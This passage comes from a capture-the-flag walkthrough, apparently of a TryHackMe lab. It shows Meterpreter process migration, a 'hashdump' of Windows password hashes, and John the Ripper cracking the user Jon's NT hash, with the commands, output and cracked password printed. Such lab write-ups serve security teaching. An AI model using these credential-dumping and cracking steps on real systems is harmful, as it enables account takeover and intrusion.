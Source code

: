 > No answer required

There are multiple services that we can use to migrate our current session. Lets try using the "cmd.exe" process which has an PID of 3064 and see if we have any luck

![Migrating Meterpreter|280](images/thm-blue/migrating-meterpreter.png)

### Task 4 : Cracking

1. **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

![Dumping System Hashes](images/thm-blue/dumping-system-hashes.png)

> Jon

2. **Copy this password hash to a file and research how to crack it. What is the cracked password?**

Lets save the hash of jon into an file and then use John the Ripper to try and crack the hash

```
> echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > windowshash

> john --format=NT windowshash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8  
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])  
Warning: no OpenMP support for this hash type, consider --fork=2  
Press 'q' or Ctrl-C to abort, almost any other key for status  
alqfna22         (Jon)  
1g 0:00:00:00 DONE (2021-03-11 15:05) 1.428g/s 14571Kp/s 14571Kc/s 14571KC/s alqui..alpusidi  
Use the "--show --format=NT" options to display all of the cracked passwords reliably  
Session completed
```

#### Command Options

*   **--format :** Specify the type of the hash
*   **--wordlist :** The wordlist that is going to be used to brute force the hash

> alqfna22

### Task 5 : Find flags!
